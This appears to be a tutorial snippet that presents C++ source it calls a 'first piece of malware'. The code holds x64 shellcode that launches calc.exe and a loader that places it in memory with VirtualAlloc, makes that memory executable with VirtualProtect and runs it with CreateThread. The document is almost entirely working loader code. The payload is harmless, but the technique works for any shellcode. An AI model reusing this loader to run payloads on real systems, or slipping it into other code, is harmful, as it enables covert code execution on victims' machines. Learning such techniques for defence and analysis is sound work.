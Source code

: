 Here is the first C++ sample to launch shellcode:
```cpp
/*
C++ Code - First piece of malware to execute calc.exe
*/
#include <windows.h>
#include <stdio.h>

// Calc.exe shellcode
unsigned char shellcode[] = {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,
  0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
  0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
  0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,
  0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
  0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
  0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
  0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,
  0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
  0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,
  0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
};

unsigned int shellcode_len = sizeof(shellcode);

int main()
{
    void* exec_buffer; // memory buffer for shellcode
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 1. Allocate buffer for shellcode
    exec_buffer = VirtualAlloc(0, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 2. Copy shellcode to buffer
    RtlMoveMemory(exec_buffer, shellcode, shellcode_len);

    // 3. Make the buffer executable
    rv = VirtualProtect(exec_buffer, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

    if (rv != 0) {
        // 4. Run the payload
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_buffer, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```
